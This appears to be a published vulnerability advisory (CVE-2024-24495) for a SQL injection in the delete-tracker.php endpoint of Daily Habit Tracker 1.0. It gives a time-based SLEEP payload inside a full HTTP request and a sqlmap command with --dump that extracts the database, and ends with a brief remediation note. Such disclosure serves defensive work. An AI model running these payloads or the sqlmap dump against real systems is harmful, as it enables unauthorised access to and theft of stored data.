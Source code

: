 # Exploit Title: Daily Habit Tracker 1.0 - SQL Injection
# Date: 2 Feb 2024
# Exploit Author: Yevhenii Butenko
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17118/daily-habit-tracker-using-php-and-mysql-source-code.html
# Version: 1.0
# Tested on: Debian
# CVE : CVE-2024-24495

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> delete-tracker.php

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### Manual Exploitation

The payload `'"";SELECT SLEEP(5)#` can be employed to force the database to sleep for 5 seconds:

```
GET /habit-tracker/endpoint/delete-tracker.php?tracker=5'""%3bSELECT+SLEEP(5)%23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

![5 seconds delay](https://github.com/0xQRx/VunerabilityResearch/blob/master/2024/img/sqli.png?raw=true)

### SQLMap

Save the following request to `delete_tracker.txt`:

```
GET /habit-tracker/endpoint/delete-tracker.php?tracker=5 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r ./delete_tracker.txt --level 5 --risk 3 --batch --technique=T --dump
```

## Recommendations

When using this tracking system, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.